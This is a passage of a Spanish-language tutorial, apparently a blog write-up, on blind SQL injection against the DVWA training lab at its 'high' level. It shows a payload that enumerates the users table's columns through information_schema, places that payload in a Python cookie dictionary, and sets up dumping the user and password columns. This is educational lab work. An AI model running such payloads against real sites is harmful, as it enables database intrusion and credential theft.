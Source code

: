![tablename](/assets/images/DVWA-SQLi/SQLiBlind-hard/tablename.png)

Y también la segunda:

![guestbook](/assets/images/DVWA-SQLi/SQLiBlind-hard/guestbook.png)

<br>

Ahora enumeraremos las columnas de la tabla users, quedando así la consulta que usaremos:

`1' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' limit 1)='a' -- -`

Y la adaptaremos al script:

```py

cookies = {
	'id': "1' AND (SELECT SUBSTRING(column_name,%d,1) FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' limit 1)='%s' -- -" % (position, character),
	'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
	'security': "high"
	}

```

Y vemos que al ejecutarla nos da la columna user_id:

![user_id](/assets/images/DVWA-SQLi/SQLiBlind-hard/user_id.png)

Y jugando con el limit descubrimos las columnas:

- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

Por lo que nos interesa enumerar el contenido de las columnas **user** y **password**, como ya hicimos en niveles anteriores, vamos a dumpear estos datos.
